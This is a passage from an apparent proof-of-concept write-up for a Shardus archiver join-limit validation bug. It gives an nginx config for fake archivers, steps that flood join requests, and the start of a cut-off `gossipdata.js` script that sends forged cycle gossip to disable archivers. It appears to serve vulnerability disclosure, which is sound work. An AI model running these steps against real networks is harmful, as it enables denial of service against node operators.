 ```
  server {
    listen 23506;
proxy_pass stream_archiver;
  }
  server {
    listen 23507;
proxy_pass stream_archiver;
  }
  server {
    listen 23508;
proxy_pass stream_archiver;
  }
  server {
    listen 23509;
proxy_pass stream_archiver;
  }
}
```

8. Now we have our fake archivers. execute `node join.js` to generate some public/private key and send join requests to network. When you see _max limit reached_ in console you can press Ctrl+C to terminate remaining requests.
9. now if you open `http://localhost:4000/archivers` in your browser, you can see many archivers are joined as active to the network.

Untill now we showed how archiver join limit validation bug can not prevent archivers from joining the network. Now we are going to use this bug and make all archivers useless.

1. Open `http://localhost:4000/archivers` in your browser, copy two of our fake archiver publicKeys which have different port number, crate a file and name it `gossipdata.js` with following text. Replace `pkList` array items with those two publicKeys. Also open `http://localhost:4000/cycleinfo/1` in your browser and copy first item of `cycleInfo` array, and replace default value of `cycle` object in following file with it.

_gossipdata.js_

```javascript
const fetch = require('node-fetch')
const { readFileSync } = require('fs')
const { sign } = require('./sign')
const { computeCycleMarker } = require('./build/Data/Cycles.js')
const { Utils } = require('@shardus/types')

const pkList = [
  '865b1c5cdc6df064c17fc397827d449bbaec61c926939ede1138604216741bae',
  '865b1c5cdc6df064c17fc397827d449bbaec61c926939ede1138604216741bae',
]

const archiverPort = 4000

async function sendGossipData(keypair) {
  const cycle = {
    activated: [],
    activatedPublicKeys: [],
    active: 18,
    apoptosized: [],
    appRemoved: [],
    archiverListHash: '3008f0303a3a929a3dc628a8548a18d5ec7d3f65938a0f860257cfaa458cf9fe',
    counter: 37,
    desired: 300,
    duration: 30,
    expired: 1,
    finishedSyncing: [],
    joined: [],
    joinedArchivers: [],
```
